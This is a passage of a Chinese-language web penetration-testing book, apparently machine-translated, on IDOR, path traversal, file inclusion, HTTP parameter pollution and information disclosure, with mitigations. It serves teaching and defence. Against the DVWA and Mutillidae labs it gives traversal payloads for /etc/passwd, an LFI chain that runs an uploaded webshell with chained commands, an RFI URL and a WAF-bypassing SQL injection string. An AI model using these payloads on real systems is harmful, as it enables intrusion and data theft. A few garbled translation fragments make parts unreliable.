








# Web 应用程序中的其他常见安全缺陷

到目前为止，在本书中，我们已经讨论了有关 web 应用程序安全性和渗透测试的大部分问题，尽管只是简单地介绍了一下。然而，由于 web 应用程序的性质是多种技术和方法的混合，这些技术和方法并不总是能够很好地协同工作，因此针对这些应用程序的特定漏洞和不同类型的攻击的数量是如此之多，而且变化如此之快，以至于没有一本书能够涵盖所有内容；因此，有些事情必须忽略。

在本章中，我们将介绍 web 应用程序中常见的一组不同的漏洞，这些漏洞有时会逃过开发人员和安全测试人员的关注，这不是因为它们未知（事实上，有些漏洞位于*OWASP Top 10*中），而是因为它们在实际应用程序中的影响有时被低估，或者是因为 SQL 注入和 XSS 等漏洞对用户信息的直接影响更具相关性。本章涵盖的漏洞如下：

*   不安全的直接对象引用
*   文件包含漏洞
*   HTTP 参数污染
*   信息披露

# 不安全的直接对象引用

当应用程序通过其名称或其他标识符从服务器请求资源（可以是文件、函数、目录或数据库记录）时，会发生**不安全的直接对象引用**漏洞，并允许用户直接篡改该标识符以请求其他资源。

让我们考虑一个使用 Mutillidae II 的例子（导航到 OWASP 前 10×2013 A4-不安全的直接对象引用源查看器）。本练习涉及一个源代码查看器，它从下拉框中选择文件名并在查看器中显示其内容：



如果您在 Burp Suite 或任何代理中检查请求，您可以看到它有一个`phpfile`参数，其中包含要查看的文件的名称：



您可以尝试拦截该请求，将文件名更改为不在列表中的文件名，但您知道它存在于服务器上，例如`passwords/accounts.txt`（您可以使用 internet 搜索默认配置文件或安装在 web 服务器和某些应用程序上的相关代码）：


由于应用程序直接以文件名引用文件，因此可以更改参数，使应用程序显示不希望看到的文件。

# web 服务中的直接对象引用

Web 服务，尤其是 REST 服务，通常使用 URL 中的标识符引用数据库元素。如果这些标识符是连续的，并且没有正确地进行授权检查，则可以通过增加或减少标识符来枚举所有元素。

例如，假设我们登录到一个银行应用程序，然后调用 API 来请求我们的个人配置文件。此请求类似于以下内容：

```
https://bankingexample.com/client/234752879  
```

该信息以 JSON 格式返回，并在客户端浏览器上格式化和显示：

```
{ 
  "id": "234752879", 
  "client_name": "John", 
  "client_surname": "Doe", 
  "accounts": [{"acc_number":"123456789","balance":1000}, 
   {"acc_number":"123456780","balance":10000}] 
} 
```

如果我们在请求中增加客户 ID，并且服务器上没有正确检查授权权限，我们可能会获得银行另一个客户的信息。在处理此类敏感数据的应用程序中，这可能是一个主要问题。Web 服务应该只允许在正确的身份验证之后进行访问，并且始终在服务器端执行授权检查；否则，有人使用直接对象引用访问敏感数据的风险。不安全的直接对象引用是 web 服务中的一个主要问题，在渗透测试 RESTful web 服务时，它们应该位于待办事项列表的顶部。

# 路径遍历

如果应用程序使用客户端给定的参数来构建文件路径，并且完成了正确的输入验证和访问权限检查，则攻击者可以更改文件名和/或在文件名前面添加路径，以检索其他文件。这称为**路径遍历**或*目录遍历*。大多数 web 服务器已被锁定以防止此类攻击，但应用程序在直接引用文件时仍需要验证输入。

应该限制用户仅浏览 web 根目录，并且不能访问 web 根目录之上的任何内容。恶意用户会从 web 根目录中寻找指向文件的直接链接，最吸引人的是操作系统根目录。

基本路径遍历攻击使用`../`序列通过 URL 修改资源请求。`../`表达式在操作系统中用于向上移动一个目录。攻击者必须猜测向上移动和移出 web 根目录所需的目录数，这可以通过反复试验轻松完成。如果攻击者想要向上移动三个目录，则必须使用`../../../`。

让我们使用 DVWA 来考虑一个例子：我们将使用 SurtT2A.file 包含的 To3T3 练习来演示路径遍历。当页面加载时，您会注意到 URL 有一个带有`include.php`值的`page`参数，它看起来很明显好像是在按文件名加载文件：


如果您访问 URL，您可以看到加载`include.php`文件的页面在应用程序根目录（`/vulnerabilities/fi/`下两级，在服务器根目录（`dvwa/vulnerabilities/fi/`下三级）。如果您将文件名替换为`../../index.php`，您将升级两个级别，然后显示 DVWA 的主页：



您可以尝试转义 web 服务器根以访问操作系统中的文件。默认情况下，Apache web 服务器在 GNU/Linux 上的根目录位于`/var/www/html`。如果在前面的输入中再添加三个级别，则将引用操作系统的根。通过将`page`参数设置为`../../../../../etc/passwd`，您将能够读取包含用户在底层操作系统上的信息的文件：


在基于 Unix 的系统中测试路径遍历时，`/etc/passwd`路径是一个确定的赌注，因为它总是存在并且每个人都可读。如果您正在测试 Windows 服务器，可能需要尝试以下操作：

```
../../../../../autoexec.bat
../../../../../boot.ini
../../../../../windows/win.ini
```

# 文件包含漏洞

在 web 应用程序中，开发人员可能包括存储在远程服务器上的代码或存储在本地服务器上的文件中的代码。引用 web 根目录中的文件以外的其他文件主要用于将公共代码合并到主应用程序稍后可以引用的文件中。

当应用程序使用输入参数来确定要包含的文件名时，易受**文件包含**的攻击；因此，用户可以设置以前上载到服务器的恶意文件的名称（本地文件包含）或另一台服务器中的文件的名称（远程文件包含）。

# 本地文件包含

在一个**本地文件包含**（**LFI**漏洞中，`include`函数未经正确验证就访问了服务器本地文件；也就是说，包含服务器代码的文件包含在页面中并执行其代码。对于开发人员来说，这是一个非常实用的特性，因为他们可以重用代码并优化资源。当用户提供的参数用于选择要包含的文件时，以及验证不足或未进行验证时，就会出现问题。许多人将 LFI 缺陷与路径遍历缺陷混淆。尽管 LFI 缺陷通常表现出与路径遍历缺陷相同的特征，但应用程序对这两个缺陷的处理方式不同。由于存在路径遍历缺陷，应用程序将只读取和显示文件的内容。有了 LFI 缺陷，应用程序将包含文件作为解释代码（构成应用程序的网页）的一部分，并执行它，而不是显示内容。

在前面解释的路径遍历漏洞中，我们使用了 DVWA 的*文件包含*练习，当我们使用`../../index.php`作为参数并且`index.php`页面被解释为代码时，我们实际执行了 LFI。尽管如此，包括服务器上已经存在并且为应用程序提供合法用途的文件有时不会带来安全风险，除非非特权用户能够包括管理页面。如果服务器上的所有页面都是无害的，那么作为渗透测试人员，您如何通过允许包含本地文件来证明存在安全问题？您需要上传一个恶意文件，并使用它进一步利用 LFI。

我们将上传的恶意文件是 webshell，它是一个脚本，将在服务器上运行，让我们远程执行操作系统命令。Kali Linux 在`/usr/share/webshells`目录中包含一组 Webshell。对于本练习，我们将使用`simple-backdoor.php`（`/usr/share/webshells/php/simple-backdoor.php`。

进入 DVWA 的*文件上传*练习，上传文件。请注意上载文件时显示的相对路径：



如果上传脚本在`/dvwa/vulnerabilities/upload/`中，相对于 web 服务器根目录，根据显示的相对路径，文件应该上传在`/dvwa/hackable/uploads/simple-backdoor.php`中。现在回到*文件包含*练习，将`page`参数更改为`../../hackable/uploads/simple-backdoor.php`：



好吧，无可否认，我们并没有得到一个惊人的结果。让我们检查 webshell 的代码：



您需要使用要执行的命令向 webshell 传递一个参数，但在文件包含中，包含文件的代码与包含它的文件集成，因此您不能像使用说明所说的那样只添加`?cmd=command`。相反，您需要添加一个`cmd`参数，就像将其发送到包含页面一样：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a
```


您还可以使用`;`（分号）作为分隔符，在一次调用中链接多个命令：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a;whoami;/sbin/ifconfig
```


# 远程文件包含

**远程文件包含**（**RFI**是一种攻击技术，当应用程序允许包含来自其他服务器的文件时，利用文件包含机制进行攻击。这可能导致应用程序在攻击者的控制下从远程服务器运行脚本。

RFI 的工作方式与 LFI 完全相同，只是使用了完整 URL，而不是文件的相对路径，如下所示：

```
http://vulnerable_website.com/preview.php?script=http://example.com/temp  
```

现代 web 服务器的功能包括默认禁用的文件，特别是外部文件。然而，有时应用程序或业务的需求会使开发人员启用此功能。然而，随着时间的推移，这种情况发生的频率会降低。

# HTTP 参数污染

HTTP 允许在`GET`和`POST`方法中使用相同名称的多个参数。HTTP 标准既没有解释，也没有设置规则，说明如何解释具有相同名称的多个输入参数，是接受变量的最后一次出现还是第一次出现，还是将变量用作数组。

例如，以下`POST`请求符合标准，即使`item_id`变量的值为`num1`和`num2`：

```
item_id=num1&second_parameter=3&item_id=num2  
```

尽管根据 HTTP 协议标准，这是可以接受的，但不同的 web 服务器和开发框架处理多个参数的方式不同。处理多个参数的未知过程通常会导致安全问题。这种意外的行为称为**HTTP 参数污染**。下表显示了主要 web 服务器中的 HTTP 重复参数行为：

| **框架/Web 服务器** | **结果动作** | **示例** |
| ASP.NET/IIS | 所有引用都用逗号连接 | `item_id=num1,num2` |
| PHP/Apache | 最后发生 | `item_id=num2` |
| JSP/Tomcat | 第一次发生 | `item_id=num1` |
| IBM HTTP 服务器 | 第一次发生 | `item_id=num1` |
| python | 组合在列表（数组）中的所有引用 | `item_id=['num1','num2']` |
| Perl/Apache | 第一次发生 | `item_id=num1` |

设想这样一个场景：Tomcat 服务器位于代码基于 Apache 和 PHP 的**Web 应用程序防火墙**（**WAF**）后面，攻击者在请求中发送以下参数列表：

```
item_id=num1'+or+'1'='1&second_parameter=3&item_id=num2  
```

WAF 将获取最后一次出现的参数并确定其为合法值，而 web 服务器将获取第一个参数，并且，如果应用程序易受 SQL 注入攻击，攻击将成功，绕过 WAF 提供的保护。

# 信息披露

使用 web 应用程序的目的是允许用户访问信息和执行任务。但是，并非每个用户都能够访问所有数据，并且存在有关应用程序、操作系统和用户的信息片段，攻击者可以利用这些信息获取知识并最终访问应用程序的已验证功能。

为了使用户和应用程序之间的交互更加友好，开发人员有时可能会发布太多的信息。此外，在默认安装中，web 开发框架预先配置为显示和突出显示其功能，而不是为了安全。这就是为什么很多时候，这些默认配置选项中的一些会一直保持活动状态，直到框架的生产版本，从而暴露可能存在安全风险的信息和功能。

让我们来回顾一些造成安全风险的信息披露示例。在下面的屏幕截图中，您可以看到一个`phpinfo.php`页面。它有时默认安装在 Apache/PHP 服务器中，并提供有关底层操作系统、web 服务器的活动模块和配置等的详细信息：



您将发现的另一件事是在客户端源代码中使用描述性注释。以下是一个极端的例子。在现实世界的应用程序中，您可能会发现仅被注释掉的应用程序的逻辑和功能的详细信息：



在下一个屏幕截图中，您可以看到 web 应用程序中的一个相当常见的问题。开发人员、安全人员和风险分析师经常低估这个问题。它包含一条过于详细的错误消息，显示调试跟踪、错误的文件名和行号，等等。这可能足以让攻击者识别操作系统、web 服务器版本、开发框架、数据库版本和文件结构，并获取更多信息：


在最后一个示例中，验证令牌存储在 HTML5 会话存储器中。请记住，可以通过 JavaScript 访问此对象，这意味着如果存在 XSS 漏洞，攻击者将能够劫持用户的会话：


# 缓解

我们现在将讨论如何预防或缓解前面章节中解释的漏洞。简而言之，我们将执行以下操作：

*   遵循最小特权原则
*   验证所有输入
*   检查/强化服务器配置

# 不安全的直接对象引用

总是倾向于使用间接引用。使用非连续数字标识符引用允许对象的表，而不是允许用户直接使用对象的名称。

对从浏览器接收到的数据进行正确的输入验证和清理将防止路径遍历攻击。应用程序的开发人员在进行文件系统调用时，应该小心接受用户输入。如果可能，应避免这种情况。**chroot jail**涉及将应用程序的根目录与操作系统的其余部分隔离，这是一种很好的缓解技术，但可能很难实现。

对于其他类型的直接对象引用，必须遵循最小特权原则。用户只能访问其正常运行所需的信息，并且必须对用户提出的每个请求验证授权。当他们请求他们的个人资料或角色不应该看到或访问的任何信息时，他们应该收到错误消息或*未经授权的*响应。

WAF 也可以阻止此类攻击，但它们应该与其他缓解技术一起使用。

# 文件包含攻击

在设计级别，应用程序应尽量减少会影响应用程序流的用户输入。如果应用程序依赖用户输入来包含文件，请选择间接引用而不是直接引用。例如，客户端提交一个对象 ID，然后在包含要包含的有效文件列表的服务器端目录中搜索该 ID。应进行代码审查以注意包含文件的函数，并应进行检查以分析是否进行了适当的输入验证以清理从用户接收的数据。

# HTTP 参数污染

利用此漏洞，应用程序无法执行正确的输入验证，从而覆盖硬编码值。应在应用程序逻辑中包括白名单预期参数及其值，并针对用户输入进行消毒。可以跟踪变量多次出现的 WAF 以及经过调整以了解缺陷的 WAF 应用于处理过滤。

# 信息披露

在将服务器配置发布到生产环境之前，必须对其进行彻底检查。应删除应用程序功能不严格必需的任何一个或多个外来文件，以及可能泄漏以下相关信息的所有服务器响应头：

*   `Server`
*   `X-Powered-By`
*   `X-AspNet-Version`
*   `Version`

# 总结

在本章中，我们回顾了 web 应用程序中的一些漏洞，这些漏洞可能会逃过 XSS、SQL 注入和其他常见缺陷的关注。作为渗透测试人员，您需要知道如何识别、利用和缓解漏洞，以便能够找出漏洞并向客户提供适当的建议。

本章首先介绍了不安全直接对象引用的广泛概念及其一些变体。然后我们继续讨论文件包含漏洞，这是一种特殊类型的不安全直接对象引用，但它本身代表一个分类类别。我们做了一个关于 LFI 的练习，并解释了远程版本。

之后，我们回顾了不同的服务器如何处理请求中的重复参数，以及攻击者如何通过 HTTP 参数污染滥用这些参数。

接下来，我们研究了信息披露，并回顾了一些示例，以说明应用程序如何向用户提供过多的信息，以及恶意代理如何使用这些信息来收集信息或进一步准备攻击。

最后，我们查看了针对上述漏洞的一些缓解建议。大多数缓解技术依赖于服务器的正确配置和应用程序代码中的严格输入验证。

到目前为止，我们一直在手动进行所有测试和利用，这是进行和学习安全测试的最佳方式。然而，在某些情况下，我们需要在短时间内覆盖大范围，或者客户需要使用一些扫描工具，或者我们只是不想错过任何低挂果实；在下一章中，我们将了解 Kali Linux 中包含的自动漏洞扫描器和模糊器，它们将在这些场景中帮助我们。